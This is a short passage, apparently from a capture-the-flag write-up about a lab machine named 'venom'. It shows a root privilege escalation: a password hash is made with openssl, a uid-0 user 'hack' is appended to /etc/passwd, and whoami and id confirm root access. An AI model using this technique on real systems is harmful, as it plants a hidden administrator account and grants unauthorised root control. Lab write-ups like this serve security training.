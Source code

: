 ```
# openssl passwd hi123
tFgnGxGGm0/nk
# echo "hack:tFgnGxGGm0/nk:0:0:root:/root:/bin/bash" >> /etc/passwd
# su hack
Password: 
root@venom:/var/www/html/subrion/backup# cd /root
root@venom:~# whoami 
root
root@venom:~# id
uid=0(root) gid=0(root) groups=0(root)
 
```

now we are completely root :P

 